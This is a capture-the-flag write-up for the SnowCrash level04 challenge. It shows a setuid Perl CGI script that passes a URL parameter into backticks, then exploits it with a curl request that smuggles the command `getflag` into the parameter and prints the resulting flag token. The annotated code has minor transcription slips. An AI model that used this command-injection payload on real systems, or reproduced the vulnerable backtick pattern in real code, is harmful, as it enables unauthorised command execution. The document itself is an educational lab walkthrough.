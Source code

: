 ## --------------> Vulnerability

Privilege escalation via CGI code injection


We have a perl script in our home directory that is owned by flag04 and has the suid/guid bit set
which means it will be executed with the rights of its owner (flag04)

```
level04@SnowCrash:~$ ls -la level04.pl
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Reading the contents of the file reveals that it is intended to run the Apache server on port 4747

```
# Indicates the path of the interpreter, like for bash (#!/bin/bash)
!/usr/bin/perl                        
# This program is executed from a web server hosted on local machine and reachable via the port 4747
localhost:4747
# In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests
use CGI qw{param};
# Print the string when it's execute
print "Content-type: text/html\n\n";   
#Define function 'x' Variable 'y' take the value of the variable passed as parameter
#Print variable 'y' ('2>&1' is for error handling) Call function 'x'
sub x {                             
  $y = $_[0];               
  print `echo $y 2>&1`; 
}
x(param("x"));

```

As we can see in the code above, it will display the command output using 'echo'. In other words, it will display the value of the variable 'x' that has been supplied as an argument!

```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```
